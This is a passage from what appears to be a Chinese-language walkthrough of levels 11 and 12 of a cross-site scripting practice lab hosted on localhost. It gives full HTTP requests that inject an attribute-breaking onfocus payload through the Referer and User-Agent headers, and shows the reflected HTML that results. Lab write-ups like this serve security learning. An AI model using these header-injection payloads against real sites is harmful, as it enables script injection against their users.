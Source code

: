 返回：

```html
<input name="t_ref"  value="evalexp.top" type="hidden">
```

直接用上一次的payload：

```http
GET /level11.php? HTTP/1.1
Host: localhost
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Referer: " type="text" onfocus="alert()
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

```

返回：

```html
<input name="t_ref"  value="" type="text" onfocus="alert()" type="hidden">
```

## Level 12

这次换UA了，还是老Payload直接打即可：

```http
GET /level12.php? HTTP/1.1
Host: localhost
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: " type="text" onfocus="alert()
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close


```
